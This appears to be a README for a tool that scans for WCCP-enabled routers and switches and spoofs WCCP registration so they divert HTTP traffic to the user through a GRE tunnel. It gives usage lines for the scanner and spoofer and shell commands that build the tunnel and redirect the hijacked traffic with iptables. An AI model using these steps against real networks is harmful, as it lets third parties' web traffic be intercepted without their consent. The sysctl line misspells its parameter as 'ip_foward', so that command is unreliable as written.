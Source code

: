 wccpscan
========

A WCCP service enumeration scanner and spoofer

You can use this to find and politely ask so configured routers and switches to foward you HTTP traffic using a GRE tunnel :)

# Scanning
`Usage: ./wccpscan.py -t <ip range begin>-<ip range end> -s <client IP routers should respond to>`

# Spoofing
`Usage: ./wccpspoof.py -t <target router IP> -s <client IP routers should forward traffic to>`

You must have a gre tunnel configured to access traffic:

`$ sudo modprobe ip_gre`

`$ sudo ip tunnel add gre0 mode gre remote <router IP> local <client IP> ttl 255`

`$ sudo ip link set gre0 up`

Then you should forward the traffic to an application:

`$ sysctl -w net.ipv4.ip_foward=1`

`$ sysctl -w net.ipv4.conf.all.send_redirects=0`

`$ iptables -t nat -A PREROUTING -i gre0 -p tcp --dport 80 -j REDIRECT --to-port <whatever port>`

Remember that to properly return traffic to the client you must return responses over the GRE tunnel!

Happy proxying!


